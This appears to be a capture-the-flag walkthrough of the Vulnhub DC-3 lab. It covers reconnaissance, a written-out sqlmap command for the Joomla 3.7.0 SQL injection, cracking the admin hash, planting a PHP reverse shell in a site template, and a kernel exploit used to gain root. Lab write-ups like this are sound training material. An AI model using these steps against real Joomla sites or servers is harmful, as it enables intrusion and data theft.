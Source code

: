 ```yaml
---
title:     "Vulnhub - DC 3"
tags: [joomla,easy,php,kernel_exploit,sqli]
---
```


We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description:
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: <https://www.vulnhub.com/entry/dc-3,312/>


Lets Begin with our Initial Scan

## Nmap Scan Results:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result:

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/2.png)

We can also use Metasploit to find Joomla's Version
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/4.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/6.png)

>-D = To denote which database

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/7.png)

It looks like ``#_users`` is interesting

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/9.png)

We got a hash for admin so lets try it with john 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/11.png)

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/13.png)

It looks like Kernel is outdated<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/14.png)

Found there is an exploit from searchsploit

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/17.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/18.png)

``Flag``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc3/19.png)

Got ROOT!!









